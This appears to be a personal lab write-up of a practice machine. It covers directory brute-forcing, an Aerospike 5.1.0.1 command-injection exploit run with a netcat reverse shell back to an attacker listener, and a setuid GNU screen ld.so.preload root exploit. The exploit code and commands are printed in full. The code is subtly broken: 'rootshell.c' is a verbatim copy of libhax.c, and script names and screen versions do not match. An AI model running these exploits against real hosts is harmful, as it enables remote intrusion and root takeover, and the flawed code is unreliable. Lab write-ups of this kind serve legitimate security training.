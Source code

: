 # Take Away
- After identifying a path under `/api`, try to brute force without any extension to increase the speed.
- Sometimes, `linpeas` gives false positives that one needs to filter out. 
- Remember to read each line of `linpeas` output carefully, if can't find obvious PE. Sometimes, details link each other in a way that forms a potential PE option.
# Exploitation
- Directory Brute-Forcing will discover a URL `/api/heartbeat` and, upon visiting the URL, one can identify a service called `aerospike` which probably corresponds to whatever is running at port `3000-3003`.![[Pasted image 20240215150002.png]]![[Pasted image 20240215142618.png]]![[Pasted image 20240215142648.png]]
- The assumption can be confirm at `aerospike`'s Official Website and by using telnet to connect to port `3003` and running `build` command to retrieve the version number as `5.1.0.1`.![[Pasted image 20240215151359.png]]![[Pasted image 20240215151618.png]]
- `searchsploit` will identify a `Command Injection` against `5.1.0.3` which should also work on `5.1.0.1`. ![[Pasted image 20240215152027.png]]
- For the script to work out of the box, we need to disable `version_check` and `register_udf` since the two functions are bugged. Run `python3 49067.py --ahost 192.168.191.143 --netcatshell --lhost 192.168.45.229 --lport 443` to receive a reverse shell call back.![[Pasted image 20240215154946.png]]
# PrivEsc
- `linpeas`'s `linux exploit suggester` points out that the target is potentially vulnerable to `setuid screen v4.6.0`. ![[Pasted image 20240215165843.png]]
- Then, in the later section, we can confirm that the target has exact version of  `screen` installed.![[Pasted image 20240215170107.png]]
- Run `searchsploit -m 41154` to retrieve the exploit. However, the exploit needs a major modification. First, generate `libhax.c` and  `rootshell` , then transfer them to the target under `tmp` folder. Finally, run `41154.sh` to obtain a root shell
- `libhax.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
     chown("/tmp/rootshell", 0, 0);
     chmod("/tmp/rootshell", 04755);
     unlink("/etc/ld.so.preload");
     printf("[+] done!\n");
}
```
- `rootshell.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
     chown("/tmp/rootshell", 0, 0);
     chmod("/tmp/rootshell", 04755);
     unlink("/etc/ld.so.preload");
     printf("[+] done!\n");
}
```
- `41554.sh`
```shell
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
gcc-9 -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
gcc-9 -o /tmp/rootshell /tmp/rootshell.c

echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed

echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```